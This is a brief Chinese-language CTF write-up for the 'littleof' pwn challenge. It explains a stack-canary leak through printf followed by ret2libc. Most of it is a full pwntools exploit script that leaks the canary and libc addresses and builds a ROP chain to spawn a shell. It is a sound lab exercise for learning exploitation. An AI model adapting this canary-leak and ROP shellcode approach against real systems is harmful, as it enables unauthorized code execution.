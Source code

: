 [[2021 鹤城杯]littleof | NSSCTF](https://www.nssctf.cn/problem/468)
![[Pasted image 20240901114708.png]]
![[Pasted image 20240901114751.png]]
开启了canary，printf会将buf上的字符输出
可用此漏洞将canary输出，获取canary后便为普通的ret2libc
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
p = process('./littleof')
# p = remote("node4.anna.nssctf.cn", 28396)
elf = ELF('./littleof')

pwnlib.gdb.attach(p, 'b *0x400789')

offset = 0x50 + 8

p.sendlineafter(b'overflow?\n', b'a' * (0x50 - 9) + b'b')

p.recvuntil(b'ab')
canary = u64(p.recv(8)) - 0xa
print('canary:', hex(canary))

ret = 0x40059e
rdi = 0x400863

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = 0x400789

print('puts_plt:', hex(puts_plt))
print('puts_got:', hex(puts_got))

payload = b'a' * (0x50 - 8) + p64(canary) + b'c' * 8 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter(b'harder!', payload)
p.recvuntil(b'win\n')
addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
  
print(hex(addr))
  
libc_base = addr - 0x80aa0
system = libc_base + 0x4f550
bin_sh = libc_base + 0x1b3e1a

payload = b'a' * (0x50 - 8) + p64(canary) + b'c' * 8 + p64(ret) + p64(rdi) + p64(bin_sh) + p64(system)

p.sendline('1')
p.sendline(payload)
p.interactive()
```
ps:本地wsl跑不了，估计本地wsl环境有点问题，用VMware可以